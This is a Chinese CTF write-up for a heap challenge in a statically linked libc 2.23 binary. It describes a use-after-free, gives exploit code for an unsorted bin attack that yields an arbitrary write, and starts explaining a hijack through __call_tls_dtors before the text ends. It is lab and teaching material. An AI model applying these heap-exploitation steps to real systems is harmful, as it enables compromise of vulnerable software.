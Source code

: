 ##### heap-pivoting

libc2.23 静态编译.可以找到对应版本libc的libc.a然后用它获取对应的sig文件便于分析.

具体步骤可以参考这篇文章:

[IDA制作签名 - 吾爱破解 - 52pojie.cn](https://www.52pojie.cn/thread-1351866-1-1.html)

题目提供了一个菜单:

![image-20250831174805066](C:\Users\XR246\AppData\Roaming\Typora\typora-user-images\image-20250831174805066.png)



其中add只能创建0x100大小的chunk,del没有清空指针,造成了uaf.

可以用ubsorted_bin_attack把指针指向bss段,造成任意地址写:

```python
add_(0,"a")
add_(1,"b")

#context.log_level='debug'
del_(0)
#del_(2)
tar_add=0x6CCD60

edi_(0,p64(0)+p64(tar_add-0x10))
pause()
add_(2,"a")
edi_(0,p64(0x6CCD60) + p64(0)+ p64(0x6ca858) + p64(0x6ca858))
pause()
add_(3,p64(0x6CCD60))
```

![image-20250901123129578](C:\Users\XR246\AppData\Roaming\Typora\typora-user-images\image-20250901123129578.png)

但这题是静态编译,没有system/one_gadget/set_context...这里用的是一条我没见过的调用链:

```c
exit->__run_exit_handlers->__call_tls_dtors
```

```c
__run_exit_handlers (int status, struct exit_function_list **listp,
		     bool run_list_atexit, bool run_dtors)
{
  /* First, call the TLS destructors.  */
#ifndef SHARED
  if (&__call_tls_dtors != NULL)
#endif
    if (run_dtors)
      __call_tls_dtors ();
```

当程序通过exit正常退出的时候,程序的`run_dtors`这个参数就会为真.程序进入`__call_tls_dtors ();`

```c
void
__call_tls_dtors (void)
{
  while (tls_dtor_list)
    {
      struct dtor_list *cur = tls_dtor_list;
      dtor_func func = cur->func;
#ifdef PTR_DEMANGLE
      PTR_DEMANGLE (func);
#endif

      tls_dtor_list = tls_dtor_list->next;
      func (cur->obj);
```